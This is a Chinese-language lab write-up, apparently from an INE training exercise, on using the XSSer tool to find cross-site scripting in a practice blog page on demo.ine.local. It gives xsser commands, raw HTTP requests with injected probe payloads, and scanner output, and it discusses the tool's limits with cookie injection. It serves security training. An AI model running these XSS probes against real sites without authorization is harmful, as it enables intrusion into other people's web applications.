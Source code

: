 
根据注入点描述，可以使用以下命令行参数：

该工具的不足，使用`--Coo`只能在Cookie字段插入payload，而使用`--cookie=COOKIE`又无法将cookie中的某一个参数插入XSS payload。

```
xsser -u 'http://demo.ine.local/index.php?page=add-to-your-blog.php' -p 'csrf-token=&blog_entry=XSS&add-to-your-blog-php-submit-button=Save+Blog+Entry' --Coo
```

```
POST /index.php?page=add-to-your-blog.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 7.0; InfoPath.3; .NET CLR 3.1.40767; Trident/6.0; en-IN)
Accept: */*
Referer: 127.0.0.1
Cookie: ">4dd6b0632a38dbc83028af691975ab06
Content-Length: 112
Content-Type: application/x-www-form-urlencoded

csrf-token=&blog_entry=%22%3E9b19abd89ca303cf0aae9b6184a02eda&add-to-your-blog-php-submit-button=Save+Blog+EntryHTTP/1.1 200 OK
Date: Thu, 30 Jun 2022 10:05:07 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=96hvd96dasv6ktbeg4gq8aov96; path=/
Set-Cookie: showhints=1
Logged-In-User: 
X-XSS-Protection: 0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
```

```
xsser -u 'http://demo.ine.local/index.php?page=add-to-your-blog.php' -p 'csrf-token=&blog_entry=XSS&add-to-your-blog-php-submit-button=Save+Blog+Entry' --cookie='PHPSESSID=4k9chfj9u63ttknssr9kb7qhi7; showhints=1; username=XSS; uid=1'
```

```
-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://demo.ine.local/index.php?page=add-to-your-blog.php | csrf-token=&blog_entry=XSS&add-to-your-blog-php-submit-button=Save+Blog+Entry
[+] Vector: [ blog_entry ]
[!] Method: URL
[*] Hash: 263d5a87807136ca0309112b8390761e
[*] Payload: csrf-token=&blog_entry=%22%3E263d5a87807136ca0309112b8390761e&add-to-your-blog-php-submit-button=Save+Blog+Entry
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 

```
可以看到，服务器判断登录用户是通过`PHPSESSID`，而不是Cookie中的username的值。虽然username是一个注入点，但该工具无法验证。
```
POST /index.php?page=add-to-your-blog.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Referer: 127.0.0.1
Cookie: PHPSESSID=4k9chfj9u63ttknssr9kb7qhi7; showhints=1; username=XSS; uid=1
Content-Length: 112
Content-Type: application/x-www-form-urlencoded
```